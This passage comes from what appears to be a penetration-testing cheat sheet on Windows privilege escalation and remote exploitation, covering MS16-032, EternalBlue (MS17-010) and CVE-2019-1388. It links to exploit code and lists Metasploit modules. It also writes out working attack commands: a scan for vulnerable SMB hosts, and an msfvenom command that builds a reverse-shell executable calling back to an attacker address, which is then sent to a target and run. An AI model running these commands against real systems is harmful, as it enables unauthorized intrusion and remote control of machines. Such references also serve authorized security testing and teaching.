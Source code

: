 Check if the patch is installed : `wmic qfe list | findstr "3139914"`

```powershell
Powershell:
https://www.exploit-db.com/exploits/39719/
https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1

Binary exe : https://github.com/Meatballs1/ms16-032

Metasploit : exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```

#### MS17-010 (Eternal Blue)

Check the vulnerability with the following nmap script or netexec: `netexec smb 10.10.10.10 -u '' -p '' -d domain -M ms17-010`.

```c
nmap -Pn -p445 --open --max-hostgroup 3 --script smb-vuln-ms17–010 <ip_netblock>
```

Metasploit modules to exploit `EternalRomance/EternalSynergy/EternalChampion`.

```powershell
auxiliary/admin/smb/ms17_010_command          MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
auxiliary/scanner/smb/smb_ms17_010            MS17-010 SMB RCE Detection
exploit/windows/smb/ms17_010_eternalblue      MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
exploit/windows/smb/ms17_010_eternalblue_win8 MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
exploit/windows/smb/ms17_010_psexec           MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
```

If you can't use Metasploit and only want a reverse shell.

```powershell
git clone https://github.com/helviojunior/MS17-010

# generate a simple reverse shell to use
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o revshell.exe
python2 send_and_execute.py 10.0.0.1 revshell.exe
```

#### CVE-2019-1388

Exploit : https://packetstormsecurity.com/files/14437/hhupd.exe.html

Requirement:

* Windows 7
* Windows 10 LTSC 10240

Failing on :

* LTSC 2019
* 1709
* 1803
